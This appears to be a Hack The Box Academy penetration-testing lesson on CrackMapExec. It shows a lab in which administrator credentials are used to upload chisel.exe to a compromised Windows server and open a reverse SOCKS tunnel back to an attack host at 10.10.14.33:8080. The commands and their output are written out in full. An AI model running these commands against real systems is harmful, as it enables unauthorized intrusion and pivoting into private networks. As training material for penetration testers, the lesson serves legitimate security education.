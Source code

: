# Vulnerability Scan Modules

An everyday activity we perform while penetration testing is trying to identify vulnerabilities. If we can find any, the exploitation work can be straightforward.

CrackMapExec includes some modules that allow us to identify vulnerabilities. In this session, we will review some of them.

***

## Setting Up the Environment

In this scenario, we compromised a server and obtained administrator credentials. This server has two network cards, and our goal is to identify if the domain is vulnerable to attack. The IP address of the domain is 172.16.10.3.

To gain access to the domain, we will use what we learned in the [Proxychains with CME](https://academy.hackthebox.com/module/84/section/827) section and establish a connection with Chisel:

### **Sending Chisel to the Target Machine**

```shell-session
$ crackmapexec smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe --local-auth

SMB         10.129.204.146  445    WS01             [*] Windows Server 2016 Standard 14393 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:True)
SMB         10.129.204.146  445    WS01             [+] WS01\Administrator:IpreferanewP@$$ (Pwn3d!)
SMB         10.129.204.146  445    WS01             [*] Copy ./chisel.exe to \Windows\Temp\chisel.exe
SMB         10.129.204.146  445    WS01             [+] Created file ./chisel.exe on \\C$\\Windows\Temp\chisel.exe
```

### **Running Chisel as a Server in Our Attack Host**

```shell-session
$ ./chisel server --reverse

2022/11/06 10:57:00 server: Reverse tunnelling enabled
2022/11/06 10:57:00 server: Fingerprint CelKxt2EsL1SUFnvo634FucIOPqlFKQJi8t/aTjRfWo=
2022/11/06 10:57:00 server: Listening on http://0.0.0.0:8080
```

### **Connecting Chisel from the Compromised Device to Our Attack Host**

```shell-session
$ crackmapexec smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' -x "C:\Windows\Temp\chisel.exe client 10.10.14.33:8080 R:socks" --local-auth

SMB         10.129.204.146  445    WS01             [*] Windows Server 2016 Standard 14393 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:True)
SMB         10.129.204.146  445    WS01             [+] WS01\Administrator:IpreferanewP@$$ (Pwn3d!)
```
